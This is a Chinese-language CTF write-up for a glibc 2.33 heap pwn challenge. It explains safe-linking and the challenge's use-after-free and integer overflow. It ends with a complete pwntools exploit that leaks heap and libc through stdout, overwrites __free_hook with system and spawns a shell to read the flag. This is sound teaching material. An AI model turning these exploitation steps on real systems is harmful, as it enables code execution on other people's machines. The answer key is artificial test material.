

### [题目信息]：

| 出题人    | 出题时间 | 题目名字                    | 题目类型 | 难度等级 | 题目分值 |
| :-------- | :------- | :-------------------------- | :------- | :------- | :------- |
| callmecro | 20210916 | The SIMS - Programming Girl | Pwn      | 5        | 500      |

### [题目描述]：

```
今年，我们发布了《模拟人生-程序媛特别版》，该版本专门为各位女性程序员们打造。
但是，由于时间紧迫，开发人员似乎没有将游戏的逻辑完善，导致游戏出现了一些奇怪的 bug。
你能发现帮助我们的开发人员找到这些 bug 吗？
```

### [题目考点]：

```
1. libc 2.33 地址保护机制
2. stdout 信息泄露
```

### [Flag ]:

`动态 flag`

### [题目环境]：

```
1. ubuntu 21.04 LTS（更新到最新）
2. xinetd 最新版
```

### [题目制作过程]：

1. 编写 main.c
2. 编译生成 pwn
3. 编写 Dockerfile

### [题目writeup]：

1. IDA 对题目的大致逻辑进行分析：

   

   题目本质上还是个堆的菜单题，但是添加了额外的交互内容，来提高程序的趣味性。

   我们来关注堆的增删改减部分：

   * 增加功能在 `make_friends` 的 `Matchmaking` 部分：

     

     题目会先利用 `calloc` 创建一个 0x20 的 chunk 来存储节点信息，然后再创建一个我们输入的 chunk。不过，这里要求我们输入的 `score` 不能大于 `player.charm`。

   * 删除功能在 `visit_friends`的 `Break off` 部分：

     

     显然，这里没有对指针进行清除处理，存在 UAF 漏洞。

   * 查看功能和修改功能，这两个功能的实现比较特殊：

     

     

     在 `get_married` 函数中，提供了对某一个 chunk 的一次查看和一次修改机会，然后在 `quality_life` 中还有一次修改机会，不过这个功能的使用，要求我们有房、有车、还要有 100 万美元的财富。

   以上就是该游戏中隐藏的菜单，不过要自由的使用增删改查功能，还需要一些额外的条件。另外，由于题目在释放 `male_friends[idx]` 的时候，没有清空，那么实际上我们可以申请 chunk 的机会只有 10 次。

2. 漏洞点分析：

   本题有两个漏洞点：

   第一个漏洞点在于 `visit_friends` 的 `break off`，题目存在 UAF 漏洞。

   

   第二个漏洞在于 `make_friends` 的 `park` 选项，存在无符号整数溢出漏洞；当然，其实很多地方都有扣钱，不过相比之下，这个地方溢出得更快。

   

3. glibc 2.33 新保护机制简介

   题目使用的 glibc 版本是 `2.33`，这个版本的 glibc 引入了一种地址保护机制：

   ```c
   /* Caller must ensure that we know tc_idx is valid and there's room
      for more chunks.  */
   static __always_inline void
   tcache_put (mchunkptr chunk, size_t tc_idx)
   {
     tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
   
     /* Mark this chunk as "in the tcache" so the test in _int_free will
        detect a double free.  */
     e->key = tcache;
   
     e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
     tcache->entries[tc_idx] = e;
     ++(tcache->counts[tc_idx]);
   }
   
   /* Caller must ensure that we know tc_idx is valid and there's
      available chunks to remove.  */
   static __always_inline void *
   tcache_get (size_t tc_idx)
   {
     tcache_entry *e = tcache->entries[tc_idx];
     if (__glibc_unlikely (!aligned_OK (e)))
       malloc_printerr ("malloc(): unaligned tcache chunk detected");
     tcache->entries[tc_idx] = REVEAL_PTR (e->next);
     --(tcache->counts[tc_idx]);
     e->key = NULL;
     return (void *) e;
   }
   ```

   * 新增了在从 tcache 中取出 chunk 时会检测 chunk 地址是否对齐的保护

   * 引入了两个新的宏对 tcache 中`存/取` chunk 的操作进行了一层保护，即在 new chunk 链接 tcache 中 old chunk 时会进行一次异或运算，代码如下：

     ```c
     #define PROTECT_PTR(pos, ptr) \
       ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
     #define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
     ```

   简单解释一下，便是 `chunk->fd` 存放的不再是前一个 chunk 的地址了，而是 `&chunk->fd` 与 `chunk->fd` 的异或结果。因此，我们要想实现任意地址分配，必须先泄露 heap 基址，才能实施后续的攻击手段。

   不过幸运的是，`tcache struct` 保存的是原始的 chunk 地址，因此如果我们能控制它，依然可以自由地任意地址分配。

   另外，这种简单的异或加密方式给 tcache 提高了不少的安全系数，但是同样也提供给我们新的泄露堆基址的途径。我们不难观察到，在 tcache 的一个 entry 中放入第一个 chunk 时，其同样会对该 entry 中的 chunk （NULL）进行异或运算后写入到将放入 tcache 中的 chunk 的 `fd` 字段，若是我们能够打印该 free chunk 的fd字段，**便能够直接获得未经异或运算的堆上相关地址**。

4. 解题思路

   题目对我们申请 chunk 的大小进行了限制，要求不能大于 `player.charm`。这里，我们可以首先利用无符号整数溢出漏洞，将我们的 `player.money` 变成很大的数字，然后便可以利用 `improving` 功能提高我们的 `player.charm`，最多可以到达 `520`。另外，我们还可以通过 `buying` 来买房买车，得到那次 `edit` 机会。接下来，剩下的便是经典的菜单题目了。

   题目只有 1 次 `show` 和 2 次 `edit` 的机会，那么这个 `show` 的机会，我们只能用于泄露 heap 地址。另外还有两次 `edit` 机会，我们则可以利用它来控制 `tcache struct`。

   那么，我们已经使用过 `show` 了，那么如何泄露 libc 机制呢？这里，我们可以利用 `stdout` 来进行信息泄露，具体可以参考这篇[文章](http://blog.eonew.cn/archives/1190)。通过这种方法泄露了 libc 基址，那么我们修改 `__free_hook` 为 `system` 地址，便可 `getshell` 了。

   * 首先，通过 `show` 功能和 `edit` 功能，泄露 heap 并控制 `tcache struct`：

     ```python
     	add(b'callmecro', 0x80)
     	delete(0)
     
     	sla(b'Choice: ', b'6')
     	sla(b'marry?', b'0')
     	ru(b'commitment to you: ')
     	heap_addr = (u64(rl().ljust(0x8, b'\x00')) ^ 0) << 12
     	log.success('heap_addr: 0x%x', heap_addr)
     
     	sla(b"groom: ", p64((heap_addr) >> 12).ljust(0x10, b'\x00'))
     	sla(b"nickname: ", (b'A'*0x8).ljust(0x10, b'\x00'))
     	delete(0)
     
     	sla(b'Choice: ', b'999')
     	sla(b'friends: ', b'0')
     	sla(b'heart: ', p64(((heap_addr + 0x2a0) >> 12) ^ (heap_addr+0x10)))
     ```

     那么，接下来我们再分配，便可将 chunk 分配到 `tcache struct` 上：

     ```python
     	add(b'callmecro', 0x80)
     	add(p16(0)*0x27+p16(0x7), 0x80)
     	delete(2)
     ```

     分配到 `tcache struct` 上，我们将 `tcache struct` 对应的大小的 `bin` 数量填满，这样我们将 `tcache struct` 释放掉，便会变成 `unsorted bin chunk`。

   * 我们知道，`unsorted bin chunk` 的 `fd` 和 `bk` 都指向 `main_arena+96`，也就是 `bins[0]` 的位置。我再次分配，然后修改 `fd` 的低 2 字节为 `0x86c0`，当然这里需要进行爆破。如果我们成功分配到 `_IO_stdout_2_1` 上，那么就会有信息泄露出来：

     ```python
     	add((p16(0)*2+p16(1)*2+p16(0)+p16(0)+p16(1)*26), 0x80)
     	add(b'\xc0\x86', 0x2)
     
     	add(p64(0xfbad1800) + p64(0) * 3 + b'\x00', 0x90)
     
     	assert (b'\x7f' in r())
     ```

     利用泄露的信息，我们便可以计算得到 libc 基址：

     ```python
     	assert (b'\x7f' in r())
     	for i in range(3):
     		r()
     
     	rr(0x6af)
     	libc.address = u64(rr(8)) - 0x1e14c0
     
     	log.success("libc_addr: 0x%x", libc.address)
     ```

   * 有了 libc 基址，我们又控制着 `tcache struct`，那么剩下就简单了，我们只需要分配到 `__free_hook`，然后修改其为 `system` 地址，再 free 掉一个 `/bin/sh` 的 chunk 即可。

     ```python
     	add(p64(libc.sym['__free_hook']))
     	add(p64(libc.sym['system']), 0x190)
     	add(b'/bin/sh\x00')
     	delete(8)
     ```

5. 完整 EXP

```python
#encoding:utf-8
from pwn import *
import re

ip = '172.17.0.2'
port = 9999 
local = 0
filename = './pwn'
libc_name = 'libc.so.6'
PREV_INUSE = 0x1
IS_MMAPPED = 0x2
NON_MAIN_ARENA = 0x4

def create_connect():
	global io, elf, libc

	elf = ELF(filename)
	context(os=elf.os, arch=elf.arch, timeout=3, log_level=1)
	
	if local:
		io = process(filename, env={'LD_PRELOAD':"./libc.so.6"})
		libc_name = './libc.so.6'
	else:
		io = remote(ip, port)
		libc_name = './libc.so.6'

	try:
		libc = ELF(libc_name)
	except:
		pass

cc = lambda : create_connect()
s = lambda x : io.send(x)
sl = lambda x : io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
g = lambda x: gdb.attach(io, x)

r = lambda : io.recv(timeout=1)
rr = lambda x: io.recv(x, timeout=1)
rl = lambda : io.recvline(keepends=False)
ru = lambda x : io.recvuntil(x)
ra = lambda : io.recvall(timeout=1)
it = lambda : io.interactive()
cl = lambda : io.close()

def add(content, size = 0x1, nickname=b'callmecro'):
	sla(b'Choice: ', b'3')
	sla(b'Choice: ', b'3')
	if size < len(content):
		size = len(content)
	sla(b'Now, tell me, what do you look for in a partner: ', str(size).encode())
	sla(b'Give your new male friend a nickname: ', nickname)
	if size == len(content):
		sa(b'For both of you, a little greeting: ', content)
	else:
		sla(b'For both of you, a little greeting: ', content)

def delete(idx):
	sla(b'Choice: ', b'4')
	sla(b'Please choose your male friends to visit: ', str(idx).encode())
	sla(b'Choice: ', b'3')

def get_married(idx, content):
	sla(b'Choice: ', b'6')
	sla(b'marry?', str(idx).encode())
	ru(b'commitment to you: ')
	res = rl()
	sla(b"groom: ", content)
	return res

def pwn():
	cc()

	sla(b'Name: ', b'callmecro')
	sla(b'Age: ', b'20')
	sla(b'Sex (1:man,2: woman): ', b'2')

	for i in range(5):
		sla(b'Choice: ', b'3')
		sla(b'Choice: ', b'2')

	for i in range(16):
		sla(b'Choice: ', b'2')
		sla(b'Choice: ', b'3')

	sla(b'Choice: ', b'5')
	sla(b'Choice: ', b'1')
	sla(b'Choice: ', b'5')
	sla(b'Choice: ', b'2')

	add(b'callmecro', 0x80)
	delete(0)

	sla(b'Choice: ', b'6')
	sla(b'marry?', b'0')
	ru(b'commitment to you: ')
	heap_addr = (u64(rl().ljust(0x8, b'\x00')) ^ 0) << 12
	log.success('heap_addr: 0x%x', heap_addr)

	sla(b"groom: ", p64((heap_addr) >> 12).ljust(0x10, b'\x00'))
	sla(b"nickname: ", (b'A'*0x8).ljust(0x10, b'\x00'))
	delete(0)

	sla(b'Choice: ', b'999')
	sla(b'friends: ', b'0')
	sla(b'heart: ', p64(((heap_addr + 0x2a0) >> 12) ^ (heap_addr+0x10)))

	add(b'callmecro', 0x80)
	add(p16(0)*0x27+p16(0x7), 0x80)
	delete(2)

	add((p16(0)*2+p16(1)*2+p16(0)+p16(0)+p16(1)*26), 0x80)
	add(b'\xc0\x86', 0x2)

	add(p64(0xfbad1800) + p64(0) * 3 + b'\x00', 0x90)

	assert (b'\x7f' in r())
	for i in range(3):
		r()

    # 注意，这里利用 stdout 泄露的信息，不同环境下的内容不一样，需要做题人自己根据泄露内容进行观察分析。
    # 基本上，每次 build 得到的镜像，泄露的信息不一样，但是同一镜像每次启动，内容是一样的
    # 因此，这个地方不会因为动态 docker 而受影响
	rr(0x6af)
	libc.address = u64(rr(8)) - 0x1e14c0

	log.success("libc_addr: 0x%x", libc.address)
	add(p64(libc.sym['__free_hook']))
	add(p64(libc.sym['system']), 0x190)
	add(b'/bin/sh\x00')
	delete(8)

	sl('cat /flag')
	log.success("flag: %s", ru(b'}').decode())
	cl()

if __name__ == '__main__':
	while True:
		try:
			pwn()
			break
		except:
			cl()
			continue
```


